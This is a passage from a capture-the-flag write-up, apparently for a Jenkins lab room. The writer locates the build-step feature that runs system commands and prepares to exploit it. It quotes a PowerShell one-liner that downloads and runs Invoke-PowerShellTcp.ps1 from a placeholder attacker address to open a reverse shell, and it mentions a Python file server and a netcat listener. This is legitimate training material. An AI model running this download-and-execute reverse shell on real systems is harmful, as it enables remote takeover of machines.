 Yeah it’s correct.

### Find a feature of the tool that allows you to execute commands on the underlying system. <a href="#user-content-find-a-feature-of-the-tool-that-allows-you-to-execute-commands-on-the-underlying-system" id="user-content-find-a-feature-of-the-tool-that-allows-you-to-execute-commands-on-the-underlying-system"></a>

![💡](https://s.w.org/images/core/emoji/15.0.3/svg/1f4a1.svg) When you find this feature, you can use this command to get the reverse shell on your machine and then run it: `powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port` ![💡](https://s.w.org/images/core/emoji/15.0.3/svg/1f4a1.svg) You first need to download the Powershell script, and make it available for the server to download. You can do this by creating a http server with python: `python3 -m http.server`

Under the Configure Project menu I found this:

<figure><img src="../../.gitbook/assets/Untitled 16 (2).png" alt=""><figcaption></figcaption></figure>

It looks like I’m able to execute code in the mathine after Jenkins builds the machine. Interesting. Let’s see if we can exploit this feature ad the room explains it.

First of all let’s download the powershell scripts, open a python http server and a netcat listener in our machine:

<figure><img src="../../.gitbook/assets/Untitled 17 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Untitled 18 (2).png" alt=""><figcaption></figcaption></figure>
